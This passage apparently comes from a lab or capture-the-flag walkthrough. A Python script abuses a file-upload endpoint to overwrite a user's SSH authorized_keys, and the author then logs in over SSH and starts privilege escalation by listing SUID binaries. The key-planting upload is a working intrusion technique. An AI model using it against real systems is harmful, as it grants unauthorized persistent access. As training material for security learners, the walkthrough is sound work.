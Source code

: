 ```py
import requests

files = {
    'file': open('./authorized_keys.txt', 'rb'),
    'filename': (None, '/home/alfredo/.ssh/authorized_keys'),
}

response = requests.post('http://192.168.191.249:33414/file-upload', files=files)
print(response.json())

```

Now let's use ssh to connect to it.
```
> ssh -i id_rsa -o IdentitiesOnly=yes alfredo@192.168.191.249 -p 25022
Last login: Tue Mar 28 03:21:25 2023
[alfredo@fedora ~]$ id
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)
[alfredo@fedora ~]$ ls -lah
total 20K
drwx------. 4 alfredo alfredo  127 Mar 28  2023 .
drwxr-xr-x. 3 root    root      21 Mar 28  2023 ..
-rw-------. 1 alfredo alfredo 4.0K Jun 19 03:13 .bash_history
-rw-r--r--. 1 alfredo alfredo   18 Jan 25  2021 .bash_logout
-rw-r--r--. 1 alfredo alfredo  141 Jan 25  2021 .bash_profile
-rw-r--r--. 1 alfredo alfredo  492 Jan 25  2021 .bashrc
-rwx------. 1 alfredo alfredo   33 Jun 19 02:54 local.txt
drwxr-xr-x. 3 alfredo alfredo   54 Mar 28  2023 restapi
drwx------. 2 alfredo alfredo   61 Jun 19 03:06 .ssh
```

## Privilege Escalation

First of all, let's find all the SUID binaries. 

```
[alfredo@fedora ~]$ find /usr -type f -perm /4000
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/staprun
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
find: ‘/usr/share/polkit-1/rules.d’: Permission denied
find: ‘/usr/share/empty.sshd’: Permission denied
find: ‘/usr/libexec/initscripts/legacy-actions/auditd’: Permission denied
/usr/libexec/cockpit-session

```
